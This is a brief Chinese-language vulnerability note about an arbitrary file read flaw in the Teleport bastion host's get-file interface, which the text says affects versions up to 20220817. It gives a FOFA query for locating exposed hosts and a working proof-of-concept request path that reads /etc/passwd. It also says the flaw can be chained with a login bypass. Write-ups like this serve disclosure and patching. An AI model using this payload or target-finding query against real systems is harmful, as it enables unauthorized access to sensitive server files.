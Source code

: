 # Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

```
Teleport Version <= 20220817
```

## FOFA

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241355622.png)

登录后使用POC验证

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![image-20220824135554806](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241355866.png)